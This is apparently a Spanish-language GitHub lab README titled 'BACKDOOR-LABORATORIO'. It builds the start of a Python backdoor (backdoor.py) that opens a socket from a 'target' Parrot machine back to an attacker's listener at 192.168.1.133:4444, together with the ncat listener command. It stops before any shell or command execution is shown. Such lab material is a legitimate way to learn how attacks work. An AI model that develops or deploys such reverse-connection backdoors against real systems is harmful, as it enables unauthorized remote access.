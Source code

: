 # BACKDOOR-LABORATORIO-


# Parrot (TARGET) 
# Ubuntu (Hacker) 
 
 
 

* backdoor.py 

 

 ```bash
import socket 

 
 connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

 
 connection.connect(("192.168.1.133",4444) 
 ```
 
 ![conexion establecida](https://user-images.githubusercontent.com/97669969/157425171-0e04af3b-ebc1-4777-b469-7e3cb254caae.png)


# Ubuntu  
* Abrimos un  listener usando ncat 
```bash 
ncat -l -vv 4444
 ```
 
![ubntu conexion establecida](https://user-images.githubusercontent.com/97669969/157425354-1970f60b-3aab-4970-babd-6d52825d4fce.png)
* Perfecto, funciona, pero vamos a mejorarlo. # HackmodeON!
 
 
 
 
 
# Parrot (Target) 

 

# backdoor.py 

 
```bash
import socket 

connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

 
 

connection.connect(("192.168.1.133",4444)) 

 
 

connection.send("\n [+] Conexion establecida".encode()) 

 
 

```